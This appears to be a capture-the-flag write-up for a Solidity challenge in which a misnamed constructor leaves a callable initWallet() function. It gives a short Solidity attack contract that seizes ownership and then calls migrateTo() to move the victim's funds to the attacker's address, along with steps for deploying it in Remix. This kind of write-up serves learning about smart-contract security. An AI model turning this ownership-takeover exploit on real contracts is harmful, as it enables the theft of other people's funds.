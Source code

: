 ## WriteUp

The challenge1.sol smart contract is vulnerable. The constructor was not set well. Instead of constructor, it is a callable function.

There is two step :

# Step 1 : 

Call the function initWallet() to gain the owner rights.

# Step 2 : 

Call the function migrateTo("youraddress") to steal his money.




# AttackContract

With the blockchain running, it can be solve with this smart contract 


// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
import "./chall1.sol";

contract Attack {
    Challenge1 public victim;
    mapping(address => uint256) balances;


    constructor(address _victimAddress)payable {
        victim = Challenge1(_victimAddress);
    }

    function beginAttack() external payable {
        victim.initWallet();
        victim.migrateTo(0x723c3E5417cae4425Ae95c2E94E80163Ae3B8101);
    }
    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }


}



First deploy this contract in remix with the address of the challenge that the website give you.

Then call beginAttack().

The address in migrateTo() is yours.
